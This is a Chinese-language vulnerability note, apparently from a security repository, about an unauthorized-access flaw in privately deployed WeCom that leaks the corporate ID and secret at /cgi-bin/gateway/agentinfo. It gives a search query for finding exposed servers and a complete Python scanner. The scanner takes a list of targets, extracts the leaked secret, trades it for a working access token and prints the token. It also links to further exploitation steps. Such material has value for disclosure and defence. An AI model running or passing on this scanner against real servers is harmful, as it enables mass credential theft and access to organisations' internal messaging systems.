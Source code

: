 企业微信（私有部署）存在未授权访问漏洞

## 漏洞描述

`/cgi-bin/gateway/agentinfo`泄露corpid和secret，利用该参数可获取access_token

## 空间测绘：

app="Tencent-企业微信"

## 临时写的脚本，格式限制比较死

-r txt格式如下：

![img](https://mmbiz.qpic.cn/sz_mmbiz_png/Lc4ILVKo1g8kibYRicAGAueVKudohkjw7OPyH3wIR12pRT8964Pl4gI2tl7JlfzVibSX98FnFicjrS06F4PfTaNlPg/640?wx_fmt=png)

-u url格式如下：

![img](https://mmbiz.qpic.cn/sz_mmbiz_png/Lc4ILVKo1g8kibYRicAGAueVKudohkjw7OWrHXrke7ybNr5kQCNLMEiaBrMPatp5L4YGoIU4x2MuKb5G9LQmUTQnA/640?wx_fmt=png)

```python
import json
import requests
import argparse
import warnings
​
# 解析命令行参数
parser = argparse.ArgumentParser()
parser.add_argument('-u', '--url', help='URL for agentinfo request')
parser.add_argument('-r', '--file', help='File containing URLs')
args = parser.parse_args()
warnings.filterwarnings("ignore")
​
# 读取包含URL的文本文件
urls = []
if args.file:
    with open(args.file, 'r') as file:
        urls = file.read().splitlines()
else:
    urls = [args.url]
​
for url in urls:
    # 发起agentinfo请求
    try:
        response = requests.get(url=f'{url}/cgi-bin/gateway/agentinfo', verify=False, timeout=3)
    except requests.exceptions.Timeout:
        print(f'Request timed out for URL: {url}')
        continue
​
    # 检查响应状态码
    if response.status_code != 200:
        print("\033[31m"+f'Failed to get agent info for URL: {url}/cgi-bin/gateway/agentinfo, 状态码{response.status_code}'+"\033[0m")
        continue
    if 'strcorpid' not in response.text:
        continue
    # 解析响应中的JSON数据
    res = response.content.decode("utf-8")
    data = json.loads(res)  # json转成python字典
    id = data['strcorpid']
    secret = data['Secret']
​
    # 发起gettoken请求
    get_token_url = f'{url}/cgi-bin/gettoken?corpid={id}&corpsecret={secret}'
    get_token_response = requests.get(get_token_url, verify=False)
​
    # 检查响应是否包含access_token并打印结果
​
    get_token_data = get_token_response.text
    if 'access_token' in get_token_data:
        data = json.loads(get_token_response.content.decode("utf-8"))  # json转成python字典
        access_token = data['access_token']
        print("\033[32m"+f'{url} 存在漏洞'+"\033[0m")
        print("\033[32m"+f'URL: {get_token_url}'+"\033[0m")
        print(f'Access Token: {access_token}')
​
```

![img](https://mmbiz.qpic.cn/sz_mmbiz_png/Lc4ILVKo1g8kibYRicAGAueVKudohkjw7OpqlrJeRJiblgqYM4f5R50gIuBg9uKsAbcKEIPnH56piafLxY00j6lNibA/640?wx_fmt=png)

## 利用方式：

```
https://xz.aliyun.com/t/11092
```